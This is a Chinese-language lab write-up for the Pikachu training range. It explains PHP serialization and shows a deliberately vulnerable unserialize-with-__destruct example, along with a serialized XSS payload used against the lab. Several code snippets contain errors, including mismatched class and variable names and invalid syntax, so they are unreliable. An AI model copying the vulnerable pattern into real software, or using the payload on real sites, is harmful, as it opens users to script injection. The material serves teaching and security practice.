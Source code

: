 # Pikachu靶场通关之PHP反序列化漏洞

## 1、PHP反序列化漏洞概述

在理解这个漏洞前,你需要先搞清楚php中serialize()，unserialize()这两个函数。

**序列化serialize()**
序列化说通俗点就是把一个对象变成可以传输的字符串,比如下面是一个对象:

```php
    class S{
        public $test="pikachu";
    }
    $s=new S(); //创建一个对象
    serialize($s); //把这个对象s进行序列化
    序列化后得到的结果是这个样子的: O:1:"S":1:{s:4:"test";s:7:"pikachu";}
        O:代表object
        1:代表对象名字长度为一个字符
        S:对象的名称
        1:代表对象里面有一个变量
        s:数据类型
        4:变量名称的长度
        test:变量名称
        s:数据类型
        7:变量值的长度
        pikachu:变量值
```

**反序列化unserialize()**

就是把被序列化的字符串还原为对象,然后在接下来的代码中继续使用。

```php
    $u=unserialize("O:1:"S":1:{s:4:"test";s:7:"pikachu";}");
    echo $u->test; //得到的结果为pikachu
```

**PHP 序列化与反序列化-案例ser.php：**

```php
class A{
	public $test="pikachu";
    }
$s=new S(); //创建一个对象
serialize($s); //把这个对象s进行序列化
echo $serdata;//得到序列化的值
echo '<br>';
$u=unserialize("O:1:"S":1:{s:4:"test";s:7:"pikachu";}");
echo $u->test; //反序列化得到的结果为pikachu
```

序列化和反序列化本身没有问题,但是如果反序列化的内容是用户可以控制的,且后台不正当的使用了PHP中的魔法函数,就会导致安全问题

```php
        常见的几个魔法函数:
        __construct()当一个对象创建时被调用

        __destruct()当一个对象销毁时被调用

        __toString()当一个对象被当作一个字符串使用

        __sleep() 在对象在被序列化之前运行

        __wakeup将在序列化之后立即被调用

        漏洞举例:

        class S{
            var $test = "pikachu";
            function __destruct(){
                echo $this->test;
            }
        }
        $s = $_GET['test'];
        @$unser = unserialize($a);
//这里的使用了php魔法函数所以导致反序列化漏洞
        payload: O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}

```

这里的功能是输入一个序列化数据，源码审计此页面是根据序列化的数据创建S对象时执行了echo，返回对象里test变量的值。如构造正常的值如

```php
O:1:"S":1:{s:4:"test";s:7:"pikachu";}
```

提交后会返回pikachu，但如果提交构造的payload如

```php
O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}
```

则S执行destruct方法时就会echo js脚本，在前端实现xss的效果了。

那么如何构造一个正确的payload的呢？我们在php里面写一个类然后定义一个变量，把变量的名称写成一段恶意的js代码然后new一下对他进行序列化。得到的序列化的内容也就是我们的payload

```
class S{
	var $test = "<script>alert('xss')</script>";
    }
echo '<br>';
$a=new S(); //创建一个对象
echo $serialize(a);
```

序列化漏洞很难通过黑盒测试发现，一般发掘反序列化漏洞主要还是通过源码审计。

## 2、靶场实战演练

我们在靶场中输入payload即已经定义好的反序列化语句。

![image-20210104101134325](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104101134325.png)

![image-20210104101324177](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104101324177.png)

这里就是提交一个序列化的内容，然而序列化中的内容就是恶意js代码，把他提交后台，后台会进行反序列化，然后通过魔法方法echo到了前端。这样就是通过反序列化的一个接口造成了xss的执行。

## 3、代码审计

在后端代码中我们可以看到后端使用了一个php魔法方法

![image-20210104112607268](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104112607268.png)

这边就是把接收到的数据做一个反序列化。

![image-20210104112659119](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104112659119.png)





